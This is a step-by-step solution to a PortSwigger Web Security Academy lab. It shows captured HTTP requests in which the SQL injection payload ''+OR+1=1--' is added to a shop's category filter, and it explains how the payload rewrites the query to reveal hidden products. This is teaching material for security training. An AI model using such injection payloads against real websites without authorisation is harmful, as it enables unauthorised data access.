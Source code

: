 ```yaml
---
title: >
  Solution to Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
---
```


The following is a solution to the [PortSwigger Web Security](https://portswigger.net/web-security) lab titled ["Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data"](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data).

Access the lab. From the Home page, navigate to one of the shop categories. (For this solution, the category is Accessories.)

In Burp Suite, send the request for the Accessories page to Repeater. The following is the unmodified HTTP request.

~~~
GET /filter?category=Accessories HTTP/2
Host: 0a3500a3042b2b11843a3897008800fd.web-security-academy.net
Cookie: session=egxqjkOekRr7s2wQXkObFabdTrnv1fCi
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a3500a3042b2b11843a3897008800fd.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
~~~

Modify the HTTP request, adding `'+OR+1=1--` after `category=Accessories`. The following is the modified HTTP request.

~~~
GET /filter?category=Accessories'+OR+1=1-- HTTP/2
Host: 0a3500a3042b2b11843a3897008800fd.web-security-academy.net
Cookie: session=egxqjkOekRr7s2wQXkObFabdTrnv1fCi
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a3500a3042b2b11843a3897008800fd.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
~~~

As a result of this modification, all product information was returned, thus solving the lab.

---

*SQL Note*

Per the lab instructions, the unmodified request (`GET /filter?category=Accessories`) results in the following SQL query:

~~~
SELECT * FROM products WHERE category = 'Accessories' AND released = 1
~~~

This returns products from the category Accessories that have been released (`released = 1`).

Adding the payload `'+OR+1=1--` to `/filter?category=Accessories` results in the following SQL query:

~~~
SELECT * FROM products WHERE category = 'Accessories' OR 1=1--' AND released = 1
~~~

This query grabs products in the category Accessories or where 1=1. One is always equal to one, so this query grabs all products. The addition of -- turns the rest of the line into a comment, so ` AND released = 1` is ignored.
